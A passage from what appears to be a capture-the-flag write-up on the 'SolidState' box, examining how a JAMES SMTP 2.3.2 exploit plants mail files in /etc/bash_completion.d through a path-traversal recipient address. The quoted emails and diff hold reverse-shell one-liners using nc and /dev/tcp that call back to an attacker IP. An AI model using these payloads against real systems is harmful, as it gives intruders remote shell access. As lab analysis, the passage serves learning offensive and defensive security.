 
The Stream Store is the one that contains the payload. It looks like a raw
email:

    
    
    Return-Path: <'0xdf@10.10.14.47>
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    
    '
    /bin/nc -e /bin/bash 10.10.14.47 443 &
    

To try to figure out why the scripted version worked while the manual version
didn’t, with both emails sitting in `/etc/bash_completion.d`, I ran `diff`:

    
    
    root@solidstate:/etc/bash_completion.d# diff 4D61696C313538383231363034383637362D33.Repository.FileStreamStore 4D61696C313538383231363132353231352D34.Repository.FileStreamStore
    1,2c1,2
    < Return-Path: <'0xdf@10.10.14.47>
    < Message-ID: <22085305.3.1588216048676.JavaMail.root@solidstate>
    ---
    > Return-Path: <'@team.pl>
    > Message-ID: <9571892.4.1588216125216.JavaMail.root@solidstate>
    8c8
    <           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 614
    ---
    >           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 47
    10,12c10,12
    <           Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
    < Date: Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
    < FROM: 0xdf@10.10.14.47
    ---
    >           Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
    > Date: Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
    > From: team@team.pl
    14,15c14,15
    < '
    < bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    ---
    > '
    > bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    